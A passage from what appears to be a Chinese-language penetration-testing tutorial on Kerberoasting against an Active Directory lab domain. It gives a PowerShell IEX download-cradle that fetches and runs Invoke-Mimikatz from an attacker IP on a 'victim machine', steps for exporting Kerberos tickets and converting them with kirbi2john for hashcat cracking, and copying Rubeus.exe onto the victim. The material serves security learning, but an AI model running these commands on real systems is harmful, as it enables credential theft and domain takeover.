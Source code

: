 现在，脚本已经准备好了，HTTP 服务器也正在运行。剩下要做的就是在受害者机器上执行 IEX 命令运行脚本。

    iex(new-object net.webclient).downloadstring('http://172.16.1.30/Invoke-Mimikatz.ps1')
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172741344-1833271204.png)

可以看到，该脚本将多个服务票据对应的 **.kirbi** 文件保存到了当前目录中。

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172741104-399726962.png)

可以看到，内存中所有缓存的票据都被导了出来。但是，我们只对可 kerberoasting 的服务帐户的票据感兴趣。

#### **

5.2、票据格式 Kirbi 转换为可破解格式

**

将我们感兴趣的票据文件传输到攻击者机器后，接下来就需要将它们转换成 hashcat 这类工具可破解的格式。

为此，我们可以使用 **kirbi2john** 对这两个 kirbi 文件进行格式处理，接着将输出结果保存到单个文件中去，然后就可以使用 hashcat 进行破解了。

    kirbi2john 3-40a10000-efrost@Juggernaut-DC~sqlservice.juggernaut.local~60111-JUGGERNAUT.LOCAL.kirbi > kerberoast.txt
    
    kirbi2john 2-40a10000-efrost@JUGGERNAUT-DC~backup_svc.juggernaut.local~60112-JUGGERNAUT.LOCAL.kirbi >> kerberoast.txt
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172741540-1988558009.png)

然而，在了解如何破解这些哈希值之前，让我们再看一些可以自动化以上整个操作过程的自动化攻击工具。

**

6、自动 Kerberoasting 攻击 – 本地

**
----------------------------------

工具 **rubeus.exe** 和 **Invoke-Kerberoast** 只需一条命令便可以自动执行 kerberoasting 攻击过程的前三个步骤：搜索已注册的 SPN、申请服务票据、导出服务票据。最重要的是，它们还会将导出的服务票据自动格式化为 hashcat 可以破解的哈希格式，以方便我们直接使用。

#### **

6.1、Rubeus.exe

**

[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) 是一种可以在 AD 环境中非常轻松地执行 kerberoasting 攻击的工具，只需一条命令，rubeus.exe 就会识别、申请并提取域中所有可 kerberoasting 用户的哈希值。

首先，我们需要将获取的 Rubeus 副本下载并传输到受害者机器上。

    cp \\172.16.1.30\share\rubeus.exe .
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172740260-1146176436.png)

然后就可以使用以下命令执行 kerberoasting 攻击：
